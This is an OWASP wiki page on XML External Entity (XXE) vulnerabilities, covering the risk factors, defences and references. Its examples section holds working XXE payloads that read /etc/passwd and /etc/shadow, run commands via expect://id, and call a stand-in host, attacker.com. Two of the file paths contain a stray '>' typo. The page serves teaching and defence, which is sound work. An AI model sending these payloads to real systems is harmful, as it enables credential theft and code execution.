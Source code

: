 ```yaml
---

layout: col-sidebar
title: XML External Entity (XXE) Processing
author: 
contributors: 
permalink: /vulnerabilities/XML_External_Entity_(XXE)_Processing
tags: vulnerability, XML External Entity (XXE) Processing
auto-migrated: 1

---
```


[Vulnerabilities Table of Contents](ASDR_TOC_Vulnerabilities "wikilink")

## Description

An <i>XML External Entity</i> attack is a type of attack against an
application that parses XML input. This attack occurs when <b>XML input
containing a reference to an external entity is processed by a weakly
configured XML parser</b>. This attack may lead to the disclosure of
confidential data, denial of service, server side request forgery, port
scanning from the perspective of the machine where the parser is
located, and other system impacts.

The [XML 1.0 standard](http://www.w3.org/TR/REC-xml/) defines the
structure of an XML document. The standard defines a concept called an
entity, which is a storage unit of some type. There are a few different
types of entities, [external general/parameter parsed
entity](http://www.w3.org/TR/REC-xml/#sec-external-ent) often shortened
to **external entity**, that can access local or remote content via a
declared system identifier. The system identifier is assumed to be a URI
that can be dereferenced (accessed) by the XML processor when processing
the entity. The XML processor then replaces occurrences of the named
external entity with the contents dereferenced by the system identifier.
If the system identifier contains tainted data and the XML processor
dereferences this tainted data, the XML processor may disclose
confidential information normally not accessible by the application.
Similar attack vectors apply the usage of external DTDs, external
stylesheets, external schemas, etc. which, when included, allow similar
external resource inclusion style attacks.

Attacks can include disclosing local files, which may contain sensitive
data such as passwords or private user data, using file: schemes or
relative paths in the system identifier. Since the attack occurs
relative to the application processing the XML document, an attacker may
use this trusted application to pivot to other internal systems,
possibly disclosing other internal content via http(s) requests or
launching a [CSRF](CSRF "wikilink") attack to any unprotected internal
services. In some situations, an XML processor library that is
vulnerable to client-side memory corruption issues may be exploited by
dereferencing a malicious URI, possibly allowing arbitrary code
execution under the application account. Other attacks can access local
resources that may not stop returning data, possibly impacting
application availability if too many threads or processes are not
released.

Note that the application does not need to explicitly return the
response to the attacker for it to be vulnerable to information
disclosures. An attacker can leverage DNS information to exfiltrate data
through subdomain names to a DNS server that he/she controls.

## Risk Factors

  - The application parses XML documents.
  - Tainted data is allowed within the system identifier portion of the
    entity, within the [document type declaration](http://www.w3.org/TR/REC-xml/#sec-prolog-dtd) (DTD).
  - The XML processor is configured to validate and process the DTD.
  - The XML processor is configured to resolve external entities within
    the DTD.

## Examples

The examples below are from [Testing for XML Injection (OWASP-DV-008)](Testing_for_XML_Injection_\(OWASP-DV-008\) "wikilink").

### Accessing a local resource that may not return

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>
```

## Remote Code Execution

If fortune is on our side, and the PHP "expect" module is loaded, we can
get RCE. Let’s modify the payload

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>
```

### Disclosing /etc/passwd or other targeted files

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd>" >]>
<foo>&xxe;</foo>
```


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/shadow>" >]>
<foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
<foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]>
<foo>&xxe;</foo>
```


## Related [Attacks](Attacks "wikilink")

  - [SQL Injection](SQL_Injection "wikilink")
  - [Blind SQL Injection](Blind_SQL_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [Missing XML Validation](Missing_XML_Validation "wikilink")

## Related [Controls](Controls "wikilink")

Since the whole XML document is communicated from an untrusted client,
it's not usually possible to selectively
[validate](Input_Validation "wikilink") or escape tainted data within
the system identifier in the DTD. Therefore, the XML processor should be
configured to use a local static DTD and disallow any declared DTD
included in the XML document.

Detailed guidance on how to disable XXE processing, or otherwise defend against XXE attacks is presented in the [XML External Entity (XXE) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html).

## References

  - OWASP [XML External Entity (XXE) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
  - [Timothy Morgan's 2014 Paper: XML Schema, DTD, and Entity Attacks - A Compendium of Known Techniques](http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf)
  - [Precursor presentation of above paper - at OWASP AppSec USA 2013](http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf)
  - [CWE-611: Information Exposure Through XML External Entity Reference](http://cwe.mitre.org/data/definitions/611.html)
  - [CWE-827: Improper Control of Document Type Definition](http://cwe.mitre.org/data/definitions/827.html)
  - [Sascha Herzog's Presentation on XML External Entity Attacks - at OWASP AppSec Germany 2010](https://www.owasp.org/images/5/5d/XML_Exteral_Entity_Attack.pdf)
  - [PostgreSQL XXE vulnerability](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3489)
  - [SharePoint and DotNetNuke XXE Vulnerabilities, in French](http://www.agarri.fr/kom/archives/2011/09/15/failles_de_type_xee_dans_sharepoint_et_dotnetnuke/index.html)
  - [XML Denial of Service Attacks and Defenses (in .NET)](http://msdn.microsoft.com/en-us/magazine/ee335713.aspx)
  - [Early (2002) BugTraq Article on XXE](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)

[Category:API_Abuse](Category:API_Abuse "wikilink")